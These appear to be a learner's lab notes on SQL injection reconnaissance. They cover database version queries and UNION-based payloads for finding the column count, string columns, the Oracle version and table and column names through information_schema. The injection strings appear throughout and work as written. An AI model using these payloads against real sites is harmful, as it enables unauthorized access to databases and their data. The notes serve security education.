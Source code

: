 
## Examining the database in SQLi attacks
To exploit SQL injection vulnerabilities, it's often necessary to find information about the database. This includes:
- The type and version of the database software
- The tables and columns that the database contains

<span style="background:#fff88f">how to find the database type:</span>
Microsoft, MySQL -->  `SELECT @@version`
Oracle -->  `SELECT * FROM v$version`
PostgreSQL -->  `SELECT version()`
=>
For example, you could use a `UNION` attack with the following input:
`' UNION SELECT @@version--`

if the query returns something like this =>  you know that in this case the DB is MySQL
![[Pasted image 20240903172828.png|300]]

### Querying the database type and version on Oracle
On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. 
If your `UNION SELECT` attack does not query from a table:
=>
you will still need to include the `FROM` keyword followed by a valid table name.
=>
There is a built-in table on Oracle called `dual`:
which you can use for this purpose. 
For example: 
`UNION SELECT 'abc' FROM dual`
=>
lab:
- find column n°: (there are 2)
  `' UNION SELECT NULL, NULL FROM dual`
- find which columns are string like (both)
  `' UNION SELECT 'a', 'a' FROM dual`
  =>
- find db version:
  `' UNION SELECT banner, 'a' FROM v$version--`
### Listing the contents of the database
you can query `information_schema.tables` -->  to list the tables in the database:
=>
`SELECT * FROM information_schema.tables`
This returns output like the following:
![[Pasted image 20240903174908.png|500]]

then:
you can find the column names with -->  `information_schema.columns`
=>
`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
(you need to specify the table_name of the table that you want to find the columns)
